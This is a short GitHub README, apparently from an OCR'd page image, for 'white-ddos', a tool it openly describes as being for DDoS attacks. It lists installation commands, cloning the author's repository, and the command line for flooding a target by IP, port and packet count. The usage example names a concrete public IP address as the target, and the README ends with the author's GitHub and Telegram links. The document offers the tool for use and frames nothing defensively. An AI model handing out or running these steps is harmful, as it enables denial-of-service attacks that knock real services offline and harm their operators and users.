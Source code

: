 # white-ddos
This is a tool used for ddos attack.

commands
_______________
$ apt update -y && apt upgrade -y
$ pkg install git
$ pkg install figlet
$ pkg install python2
$ git clone https://github.com/WH1T3-E4GL3/white-ddos.git
$ cd white-ddos
$ python2 white-ddos.py <IP> <PORT> <PACKETS>
 
example : python2 white-ddos.py 104.27.190.77 8080 100  
	
	  Target IP : 104.27.190.77 
	  Port      : 8080
	  Packet    : 100  

Tool used for ddos attack.
Tool devoloped by white eagle.

Github   : https://github.com/WH1T3-E4GL3
Telegram : https://t.me/Ka_KsHi_HaTaKe
